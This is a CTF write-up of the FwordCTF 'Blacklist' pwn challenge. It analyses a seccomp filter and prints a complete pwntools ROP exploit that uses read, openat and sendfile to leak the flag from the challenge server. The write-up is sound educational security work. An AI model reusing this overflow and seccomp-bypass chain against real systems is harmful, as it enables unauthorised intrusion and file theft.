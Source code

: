 ## FwordCTF Blacklist Writeup
#### Tags: pwn, seccomp bypass, rop

We are given a statically linked binary:

```
$ file ./blacklist
./blacklist: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8231fd8232118e3b92ca37d041e1da3ab1daf4d9, for GNU/Linux 3.2.0, stripped
```

From analzying the binary, we can see it uses seccomp to restrict syscalls, then waits for input:

```
$ strace ./blacklist
...
seccomp(SECCOMP_SET_MODE_FILTER, 0, {len=24, filter=0x902350}) = 0
read(0, 
```

We can easily overflow, find the offset and control rip, but due to seccomp, it will be much harder to read the flag.

```
$ ./blacklist
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Let's analyze the seccomp profile using [seccomp-tools](https://github.com/david942j/seccomp-tools):
```
$ seccomp-tools dump ./blacklist
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x15 0xc000003e  if (A != ARCH_X86_64) goto 0023
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x12 0xffffffff  if (A != 0xffffffff) goto 0023
 0005: 0x15 0x11 0x00 0x00000001  if (A == write) goto 0023
 0006: 0x15 0x10 0x00 0x00000002  if (A == open) goto 0023
 0007: 0x15 0x0f 0x00 0x00000012  if (A == pwrite64) goto 0023
 0008: 0x15 0x0e 0x00 0x00000014  if (A == writev) goto 0023
 0009: 0x15 0x0d 0x00 0x00000038  if (A == clone) goto 0023
 0010: 0x15 0x0c 0x00 0x00000039  if (A == fork) goto 0023
 0011: 0x15 0x0b 0x00 0x0000003a  if (A == vfork) goto 0023
 0012: 0x15 0x0a 0x00 0x0000003b  if (A == execve) goto 0023
 0013: 0x15 0x09 0x00 0x0000003e  if (A == kill) goto 0023
 0014: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0023
 0015: 0x15 0x07 0x00 0x000000c8  if (A == tkill) goto 0023
 0016: 0x15 0x06 0x00 0x00000113  if (A == splice) goto 0023
 0017: 0x15 0x05 0x00 0x00000128  if (A == pwritev) goto 0023
 0018: 0x15 0x04 0x00 0x00000130  if (A == open_by_handle_at) goto 0023
 0019: 0x15 0x03 0x00 0x00000135  if (A == getcpu) goto 0023
 0020: 0x15 0x02 0x00 0x00000142  if (A == execveat) goto 0023
 0021: 0x15 0x01 0x00 0x00000148  if (A == pwritev2) goto 0023
 0022: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 ```
All the syscalls listed above are blocked.
Also attempting to switch to 32 bit mode to use 32 bit syscalls is not allowed.

We need to bypass the seccomp filter and read the flag somehow (it's path is known). After looking at the [amd64 syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can find some useful syscalls that allow us to read the flag:
 * read - to read the path of the flag into a known address
 * openat - to open the flag file and get the fd
 * sendfile - to transfer data between file descriptors (we can transfer to fd 1 stdout)

Now because the binary is statically linked, we will have plenty of rop gadgets to use. I chose to write a rop chain that uses only these syscalls. Another approach is to write custom shellcode, then use mprotect to mark the section of the shellcode as executable, and execute it.

Before I wrote the rop chain, I tested the syscalls in a [c program](blacklist/idea.c) in order to test it easily:
```
#include <fcntl.h>
#include <sys/sendfile.h>

int main() {
    // read(0, RW_ADDR, 900); // write path of flag to known address
    int fd = openat(0, "/path/to/flag.txt", O_RDONLY); // imagine that RW_ADDR points to the string "/path/to/flag.txt"
    sendfile(1, fd, 0, 0xffff);
    return 0;
}
```

Now the [final exploit](blacklist/solve.py):
```
from pwn import *

context(arch="amd64")
elf = ELF("./blacklist")

DEBUG = False
REMOTE = True

if DEBUG:
    p = gdb.debug("./blacklist", gdbscript="""
    b *0x4017b6
    continue
    """)
elif REMOTE:
    p = remote("blacklist.fword.wtf",1236)
else:
    p = process(elf.path)

offset = 72

read_n = 0
openat_n = 257 
sendfile_n = 40

pop_rdi_ret = 0x00000000004017b6#: pop rdi; ret;
pop_rsi_ret = 0x00000000004024f6#: pop rsi; ret;
pop_rdx_ret = 0x0000000000401db2#: pop rdx; ret;
pop_rax_ret = 0x0000000000401daf#: pop rax; ret;
pop_r10_ret = 0x0000000000401db1#: pop r10; ret;
syscall_ret = 0x000000000041860c#: syscall; ret;


string_addr = 0x004d1260
path_str = "/home/fbi/aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma.txt\x00"

# first payload to read string from stdin
payload = b""
payload += b"A"*offset 
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 fd
payload += p64(pop_rsi_ret)
payload += p64(string_addr) # arg2 buf
payload += p64(pop_rdx_ret)
payload += p64(300) # arg3 count
payload += p64(pop_rax_ret)
payload += p64(read_n)
payload += p64(syscall_ret) # read

# second payload to open the flag using openat
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 (doesn't matter)
payload += p64(pop_rsi_ret) 
payload += p64(string_addr) # arg2 path
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3
payload += p64(pop_rax_ret)
payload += p64(openat_n)
payload += p64(syscall_ret) # openat

flag_fd = 3 # new fd of the flag will always be 3

# third payload to write flag to stdout using sendfile
payload += p64(pop_rdi_ret)
payload += p64(1) # arg1 dst fd: stdout
payload += p64(pop_rsi_ret)
payload += p64(flag_fd) # arg2 src fd: flag_fd
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3 offset
payload += p64(pop_r10_ret)
payload += p64(0xffff) # arg4 count
payload += p64(pop_rax_ret)
payload += p64(sendfile_n)
payload += p64(syscall_ret) # sendfile

p.sendline(payload)
p.sendline(path_str)
p.interactive()
```

And we get the flag!
**FwordCTF{th3_n4M3_1s_El1Z4be7h_K33n}**

Overall a really fun challenge.
